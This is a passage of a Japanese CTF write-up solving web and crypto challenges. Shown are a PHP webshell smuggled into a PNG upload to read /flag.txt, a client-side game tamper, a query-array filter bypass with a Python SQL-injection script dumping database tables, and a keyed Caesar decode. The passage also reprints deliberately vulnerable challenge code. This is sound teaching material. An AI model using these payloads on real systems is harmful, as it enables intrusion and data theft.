actf{nyoom_1_4m_sp33d}
```

## [Web 120] Defund's Crypt (303 solves)
> One year since defund's descent. One crypt. One void to fill. Clam must do it, and so must you.
> 
> Author: aplet123

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width,initial-scale=1">
        <link href="https://fonts.googleapis.com/css?family=Inconsolata|Special+Elite&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/style.css">
        <title>Defund's Crypt</title>
    </head>
    <body>
        <!-- Defund was a big fan of open source so head over to /src.php -->
        <!-- Also I have a flag in the filesystem at /flag.txt but too bad you can't read it -->
        <h1>Defund's Crypt<span class="small">o</span></h1>
                
        <form method="POST" action="/" autocomplete="off" spellcheck="false" enctype="multipart/form-data">
            <p>Leave a memory:</p>
            <input type="file" id="imgfile" name="imgfile">
            <label for="imgfile" id="imglbl">Choose an image...</label>
            <input type="submit" value="Descend">
        </form>
        <script>
            imgfile.oninput = _ => {
                imgfile.classList.add("satisfied");
                imglbl.innerText = imgfile.files[0].name;
            };
        </script>
    </body>
</html>
```

`/src.php` からソースが見られそうです。アクセスしてみると以下のような PHP コードが表示されました。

```php
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width,initial-scale=1">
        <link href="https://fonts.googleapis.com/css?family=Inconsolata|Special+Elite&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/style.css">
        <title>Defund's Crypt</title>
    </head>
    <body>
        <!-- Defund was a big fan of open source so head over to /src.php -->
        <!-- Also I have a flag in the filesystem at /flag.txt but too bad you can't read it -->
        <h1>Defund's Crypt<span class="small">o</span></h1>
        <?php
            if ($_SERVER["REQUEST_METHOD"] === "POST") {
                // I just copy pasted this from the PHP site then modified it a bit
                // I'm not gonna put myself through the hell of learning PHP to write one lousy angstrom chall
                try {
                    if (
                        !isset($_FILES['imgfile']['error']) ||
                        is_array($_FILES['imgfile']['error'])
                    ) {
                        throw new RuntimeException('The crypt rejects you.');
                    }
                    switch ($_FILES['imgfile']['error']) {
                        case UPLOAD_ERR_OK:
                            break;
                        case UPLOAD_ERR_NO_FILE:
                            throw new RuntimeException('You must leave behind a memory lest you be forgotten forever.');
                        case UPLOAD_ERR_INI_SIZE:
                        case UPLOAD_ERR_FORM_SIZE:
                            throw new RuntimeException('People can only remember so much.');
                        default:
                            throw new RuntimeException('The crypt rejects you.');
                    }
                    if ($_FILES['imgfile']['size'] > 1000000) {
                        throw new RuntimeException('People can only remember so much..');
                    }
                    $finfo = new finfo(FILEINFO_MIME_TYPE);
                    if (false === $ext = array_search(
                        $finfo->file($_FILES['imgfile']['tmp_name']),
                        array(
                            '.jpg' => 'image/jpeg',
                            '.png' => 'image/png',
                            '.bmp' => 'image/bmp',
                        ),
                        true
                    )) {
                        throw new RuntimeException("Your memory isn't picturesque enough to be remembered.");
                    }
                    if (strpos($_FILES["imgfile"]["name"], $ext) === false) {
                        throw new RuntimeException("The name of your memory doesn't seem to match its content.");
                    }
                    $bname = basename($_FILES["imgfile"]["name"]);
                    $fname = sprintf("%s%s", sha1_file($_FILES["imgfile"]["tmp_name"]), substr($bname, strpos($bname, ".")));
                    if (!move_uploaded_file(
                        $_FILES['imgfile']['tmp_name'],
                        "./memories/" . $fname
                    )) {
                        throw new RuntimeException('Your memory failed to be remembered.');
                    }
                    http_response_code(301);
                    header("Location: /memories/" . $fname);
                } catch (RuntimeException $e) {
                    echo "<p>" . $e->getMessage() . "</p>";
                }
            }
        ?>
        
        <form method="POST" action="/" autocomplete="off" spellcheck="false" enctype="multipart/form-data">
            <p>Leave a memory:</p>
            <input type="file" id="imgfile" name="imgfile">
            <label for="imgfile" id="imglbl">Choose an image...</label>
            <input type="submit" value="Descend">
        </form>
        <script>
            imgfile.oninput = _ => {
                imgfile.classList.add("satisfied");
                imglbl.innerText = imgfile.files[0].name;
            };
        </script>
    </body>
</html>
```

JPEG、PNG、ビットマップのいずれかの画像をアップロードすると `/memories/(ファイルの SHA-1 ハッシュ).(拡張子)` に保存されるようです。

どうやら不正なファイルがアップロードされないように `finfo` によって拡張子とファイルの形式が一致しているか確認しているようです。が、このチェック時とは別に保存時に改めてファイル名から拡張子を取得しており、これは `substr($bname, strpos($bname, "."))` と最初の `.` 以降を切り取っているだけなので、`a.png.php` というファイル名でアップロードすれば `(ファイルの SHA-1 ハッシュ).png.php` として保存されてしまいます。

`finfo` は PNG として正しいものか、例えば IEND チャンク以降にデータがあるかといったことはチェックしていないので、いくらでもごまかすことができます。

まず適当な PNG ファイルを用意し、IEND チャンク以降に `<?php eval($_GET[0]); ?>` を挿入します。ファイル名を `a.png.php` としてアップロードし、`/memories/(省略).png.php?0=phpinfo();` にアクセスすると PHP のバージョン等の情報を表示させることができました。

実行させるコードを `readfile('/flag.txt');` に変えるとフラグが得られました。

```
actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}
```

## [Web 130] Woooosh (175 solves)
> Clam's tired of people hacking his sites so he spammed obfuscation on his new game. I have a feeling that behind that wall of obfuscated javascript there's still a vulnerable site though. Can you get enough points to get the flag? I also found the backend source.
> 
> Author: aplet123

与えられた URL にアクセスすると以下のような HTML が返ってきました。

```html
<!doctype html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    
        <link href="https://fonts.googleapis.com/css?family=Inter&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/style.css">
    
        <title>Woooosh</title>

        <script src="/socket.io/socket.io.js"></script>
    </head>
    <body>
        <h1>The Greatest Game of All Time</h1>
<p>If I aggressively obfuscate the frontend then my code is secure, right?</p>
<p id="pScore">To play, just click on the circle and don't click on the square.</p>
<button id="bStart">Start game</button>
<canvas id="cGame" width="500" height="300"></canvas>
<script src="main.js"></script>
    </body>
</html>
```

大量の正方形の中に隠れている円を探し出してクリックするゲームのようです。`main.js` は javascript-obfuscator で難読化されていました。

Google Chrome の DevTools で `Object.keys(this)` を実行してみると、以下のように javascript-obfuscator によって生成された `_0x1ce0` や `_0x34d7` のようなプロパティの他に、`drawShapes` や `getCursorPosition` のような意味ありげなプロパティが確認できました。



`drawShapes` の実装を確認します。そのままでは読みづらいので、少し整形しています。

```javascript
function drawShapes() {
    ctx[_0x34d7('0x9')](0x0, 0x0, 0x1f4, 0x12c);
    shapes['map']((_0x401a13, _0x53031c) => 
      _0x53031c ? ctx[_0x34d7('0x17')](_0x401a13['x'] - 0x5, _0x401a13['y'] - 0x5, 0xa, 0xa)
                : ctx['beginPath']() + ctx[_0x34d7('0xa')](_0x401a13['x'], _0x401a13['y'], 0x5, 0x0, Math['PI'] * 0x2) + ctx[_0x34d7('0x28')]() + ctx[_0x34d7('0x2f')]());
}
```

`shapes.map` に渡したコールバック関数が呼ばれたときに、第二引数が真として評価される値ならばおそらく正方形を、そうでなければ円を描いているようです。`Array.prototype.map` の第一引数はコールバック関数で、コールバック関数に渡される第二引数は配列の添字ですから、1 つ目の要素ならば円を描くという処理のようです。

`shapes` は以下のような配列でした。



`shapes` の 1 つ目の要素が円が描かれる座標ということでしょう。

`getCursorPosition` はクリックした座標を返す関数でしょうから、これが円の座標を返すようにできないでしょうか。実装を確認します。こちらもそのままでは読みづらいので、少し整形しています。

```javascript
function getCursorPosition(_0x2b237a, _0x380ec8) {
    var _0x127ab4 = {
        'NhgpB': function(_0x3d88ae, _0x1d8777) {
            return _0x3d88ae - _0x1d8777;
        }
    };
    const _0x17e5d8 = _0x2b237a[_0x34d7('0x2b')]();
    const _0x4a40e = _0x127ab4[_0x34d7('0x46')](_0x380ec8[_0x34d7('0x43')], _0x17e5d8['left']);
    const _0x1efa5e = _0x127ab4[_0x34d7('0x46')](_0x380ec8['clientY'], _0x17e5d8[_0x34d7('0x6c')]);
    return [_0x4a40e, _0x1efa5e];
}
```

`[x, y]` のような配列を返しているようです。`getCursorPosition = () => [shapes[0].x, shapes[0].y];` を実行すればどこをクリックしても円の座標を返すようになります。これを実行した上でゲームを遊ぶと、スコアが 20 を超えたあたりでフラグが表示されました。

```
actf{w0000sh_1s_th3_s0und_0f_th3_r3qu3st_fly1ng_p4st_th3_fr0nt3nd}
```

## [Web 180] A Peculiar Query (180 solves)
> Clam thinks he's really cool and compiled a database of "criminal records" with a site to top it all off. I've dropped the tables once before but this time he took some extra security measures and I think he even hid a flag in there. Can you get it?
> 
> Author: aplet123

与えられた URL にアクセスすると `Criminal Record Lookup` という、名前を入力するとその人の前科が得られるっぽいサイトが表示されました。ソースコードも添付されています。

```javascript
const express = require("express");
const rateLimit = require("express-rate-limit");
const app = express();
const { Pool, Client } = require("pg");
const port = process.env.PORT || 9090;
const path = require("path");

const client = new Client({
	user: process.env.DBUSER,
	host: process.env.DBHOST,
	database: process.env.DBNAME,
	password: process.env.DBPASS,
	port: process.env.DBPORT
});

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

app.set("view engine", "ejs");

app.use(express.static("public"));

app.get("/src", (req, res) => {
	res.sendFile(path.join(__dirname, "index.js"));
});

app.get("/", async (req, res) => {
	if (req.query.q) {
		try {
			let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
			q = q.substring(0, 80);
			const result = await query(q);
			res.render("home", {results: result.rows, err: ""});
		} catch (err) {
			console.log(err);
			res.status(500);
			res.render("home", {results: [], err: "aight wtf stop breaking things"});
		}
	} else {
		res.render("home", {results: [], err: ""});
	}
});

app.listen(port, function() {
	client.connect();
	console.log("App listening on port " + port);
});
```

`SELECT name FROM Criminals WHERE name ILIKE '${q}%';` で単純な SQLi かと思いきや、よく見ると `-` `"` `'` `.` が出現するとそれ以降の文字を `*` に置換する処理がなされています。

実際にどうなるか確認するために、ミニチュア版の `index.js` を作ってみましょう。

```javascript
const express = require("express");
const app = express();
const port = process.env.PORT || 9090;
const path = require("path");

app.get("/", async (req, res) => {
  if (req.query.q) {
    try {
      let q = req.query.q;
      let censored = false;
      for (let i = 0; i < q.length; i ++) {
        if (censored || "'-\".".split``.some(v => v == q[i])) {
          censored = true;
          q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
        }
      }
      q = q.substring(0, 80);
      res.send(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
    } catch (err) {
      res.status(500);
      res.send('err');
    }
  }
});

app.listen(port, function() {
  console.log("App listening on port " + port);
});
```

`/?q=abc%27def` にアクセスすると `SELECT name FROM Criminals WHERE name ILIKE 'abc****%';` が返ってきました。これは厳しい。

これでは何もできないように見えますが、よく見ると `req.query.q` が文字列であるかどうかは一切チェックされておらず、また文字列への変換も行われていません。もし `req.query.q` に配列が入っていればどうなるのでしょうか。

いろいろ試していると、`/?q[]=%27abc&q[]=a` にアクセスするとエラーが発生しますが、`/?q[]=%27abc&q[]=%27` にアクセスすると `SELECT name FROM Criminals WHERE name ILIKE ''a***%';` が返ってくることがわかりました。最初の `'abc` の `'` が消されていません。SQLi チャンス!

この不思議な挙動は文字列と配列のいずれにも `slice` というメソッドが存在するためでしょう。

例えば `/?q[]=%27abc&q[]=%27` のときには `q` が `["'abc", "'"]` になります。`q` の各要素をチェックしている部分で `q[1]` (= `"'"`) のときに `-` `"` `'` `.` のチェックに引っかかり、`q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);` が実行されます。この時点で `q.slice(0, i)` と `q.slice(i + 1, q.length)` はいずれも配列ですが、`"*"` と `+` 演算子で結合されることで文字列に変換され、これ以降 `q` は配列ではなく文字列になります。

`/?q[]=%27abc&q[]=a` のように、もし `q[1]` が `"'"` でなければ `q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);` は実行されません。このとき `q` は配列のままですから、`q = q.substring(0, 80);` で `substring` という存在しないメソッドを呼び出すことになり、エラーが発生します。

これを利用して SQLi をしていきましょう。まずは `information_schema.tables` からテーブルの情報を抜き出します。

```python
import requests
import urllib.request

URL = '(省略)'
payload = "' union select table_name from information_schema.tables;-- "
url = URL + '?q[]=' + urllib.request.quote(payload) + '&q[]=a' * (len(payload) - 2) + '&q[]=%27'

print(requests.get(url).text)
```

```
$ python3 req.py
︙
                                <tr><td>pg_auth_members</td><td>where's my million dollars</td></tr>

                                <tr><td>criminals</td><td>where's my million dollars</td></tr>

                                <tr><td>pg_stat_user_functions</td><td>where's my million dollars</td></tr>
︙
```

`Criminals` というテーブルがあるようです。知ってた。`information_schema.columns` からカラムの情報を抜き出します。`payload` を `"' union select table_name||column_name from information_schema.columns;-- ` に変えて実行します。

```
$ python3 req.py
︙
                                <tr><td>criminalscrime</td><td>where's my million dollars</td></tr>
︙
                                <tr><td>criminalsname</td><td>where's my million dollars</td></tr>
︙
```

`Criminals` の内容を抜き出します。`payload` を `' union select crime from criminals;-- ` に変えて実行します。

```
$ python3 req.py
︙
                                <tr><td>He&#39;s been hoarding the flag actf{qu3r7_s7r1ng5_4r3_0u7_70_g37_y0u}</td><td>where's my million dollars</td></tr>
︙
```

フラグが得られました。

```
actf{qu3r7_s7r1ng5_4r3_0u7_70_g37_y0u}
```

## [Crypto 40] Keysar (864 solves)
> Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.
> 
> He mumbled what cipher he used, but I think I have a clue.
> 
> Gotta go though, I have history homework!!
> 
> agqr{yue_stdcgciup_padas}
> 
> ヒント: Keyed caesar, does that even exist??
> 
> Author: joshdabosh

`Keyed caesar` でググると[それっぽいツール](http://rumkin.com/tools/cipher/caesar-keyed.php)がヒットしました。`ANGSTROMCTF` を鍵に `agqr{yue_stdcgciup_padas}` を復号するとフラグが得られました。

```
actf{yum_delicious_salad}
```